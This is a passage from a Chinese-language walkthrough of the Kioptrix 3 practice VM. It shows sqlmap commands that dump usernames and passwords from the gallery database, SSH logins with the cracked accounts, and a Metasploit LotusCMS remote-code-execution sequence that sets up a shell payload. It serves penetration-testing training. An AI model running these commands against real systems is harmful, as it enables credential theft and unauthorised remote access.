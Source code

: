 然后进一步查看一下相关信息：

```shell
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 –dump -D gallery -T dev_accounts -C “username,password”
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712026.png" alt="image-20240127115654542" style="zoom:50%;" />

```shell
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 –dump -D gallery -T gallarific_users -C “username,password”
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712027.png" alt="image-20240127115753785" style="zoom:50%;" />

使用上面两个账号`dreg`和`loneferret`可以进行ssh远程连接。

> 这里直接 ssh  username@IP会报错
>
> 报错是因为OpenSSH 7.0以后的版本不再支持ssh-dss (DSA)算法

```shell
ssh -oHostKeyAlgorithms=+ssh-dss dreg@192.168.244.139
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.244.139
# ssh：这是Secure Shell的缩写，是一种网络协议，用于在不安全的网络中提供安全的远程登录和其他安全网络服务。
# -oHostKeyAlgorithms=+ssh-dss：这是一个选项，用于指定在进行密钥交换时使用的主机密钥算法。
# 在这里，+ssh-dss表示添加ssh-dss算法到默认的主机密钥算法列表中。
```

获取普通用户权限。

## 尝试CMS漏洞

### Lotus CMS 漏洞利用

打开login网页的时候可发现是采用 Lotus CMS 的：

![image-20240126233322383](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712028.png)

尝试寻找一下相关漏洞：（这里直接使用metasploit是因为我之前已经在searchsploit里找到了这个利用点了）

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712029.png" alt="image-20240127164427260" style="zoom: 33%;" />

利用失败：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712030.png" alt="image-20240127164500015" style="zoom: 50%;" />

可能是因为这个payload原因，多试几个，``是可以的。

![image-20240127170953311](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712031.png)

总的流程是这样的：

```shell
msfconsole
search lotuscms
use exploit/multi/http/lcms_php_exec
# No payload configured, defaulting to php/meterpreter/reverse_tcp
show options
set RHOSTS 192.168.244.140
set URI "/"
show payloads 
set payload payload/generic/shell_bind_tcp
run # exploit
```
